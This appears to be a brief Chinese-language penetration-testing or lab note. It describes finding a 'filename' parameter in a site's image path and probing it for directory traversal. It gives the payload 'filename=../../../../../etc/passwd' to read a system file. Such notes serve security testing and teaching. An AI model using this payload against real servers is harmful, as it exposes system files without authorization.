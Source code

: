 该网站图像显示路径中包含filename参数

探测是否存在目录遍历漏洞



paylod:

```javascript
filename=../../../../../etc/passwd
```



![](images/217C56FD66AF4FCA9DB50E14C332A5F6clipboard.png)

